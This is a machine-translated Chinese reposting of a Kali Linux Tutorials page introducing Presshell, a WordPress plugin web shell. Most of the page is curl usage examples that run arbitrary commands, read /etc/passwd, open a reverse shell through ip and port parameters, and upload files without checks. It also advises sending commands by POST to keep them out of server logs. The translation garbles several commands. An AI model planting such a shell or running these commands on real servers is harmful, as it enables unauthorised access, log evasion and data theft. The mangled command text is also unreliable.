

# 快速和肮脏的命令执行外壳

> 原文：<https://kalilinuxtutorials.com/presshell/>

.png)

**Presshell** 是*快速& dirty WordPress 命令执行 Shell* 的工具。在你的 wordpress 服务器上执行 shell 命令。上传的 shell 可能位于`**<your-host>/wp-content/plugins/shell/shell.php**`

### 装置

要安装 shell，我们假设你有 WordPress 的管理权限，并且可以安装插件，因为把 PHP 文件转移到媒体库是不应该的。否则，你有更大的问题。

只需上传位于 Releases 部分的 zip 文件作为新的扩展名，就可以开始了。

### 用法

使用 shell 非常简单。只需将`**sh**`命令作为参数传递给 shell:

**❯curl ' http://host/…/shell . PHP？cmd = uname+-a '
Linux WordPress-server 2 . 6 . 32-21-generic-PAE #**32-Ubuntu SMP Fri 2010 年 4 月 16 日 09:39:35 UTC i686 GNU/Linux

您也可以在 POST 请求中传递这些参数，这是将您的命令排除在日志之外的推荐方式。

**❯curl ' http://host/…/shell . PHP '–data-urlencode ' cmd = ls '
license
readme . MD
shell.php**

还支持更复杂的命令，不过要注意引用

**❯curl ' http://host/…/shell . PHP '–data-urlencode ' cmd = cat/etc/passwd | grep-v "(false | nologin)'
root:x:0:0:root:/root:/bin/bash
sync:x:4:65534:sync:/bin:/bin/sync**

**❯curl ' http://host/…/shell . PHP '–data-urlencode ' cmd = python-c " from urllib . parse 导入 urlencode；print(urlencode({ \ " cmd \ ":\ " uname-a \ " })" '
cmd = uname+-a**

您也可以使用`**ip**`和`**port**`参数打开反向外壳。默认端口是`**443**`。

**❯curl ' http://host/…/shell . PHP '–data-urlencode ' IP = 127 . 0 . 0 . 1 '**

**❯curl ' http://host/…/shell . PHP '–data-urlencode ' IP = 127 . 0 . 0 . 1 '–data-urlencode ' port = 1337 '**

为了方便起见，还提供了一个选项，可以无条件地将文件上传到插件*的目录中，并且不需要检查*。

**❯curl ' http://host/…/shell . PHP '-f ' file = @ some _ file '
❯curl ' http://host/…/shell . PHP '–data-urlencode ' cmd = ls '
license
readme . MD
shell.php
some _ file**

[**Download**](https://github.com/scheatkode/presshell)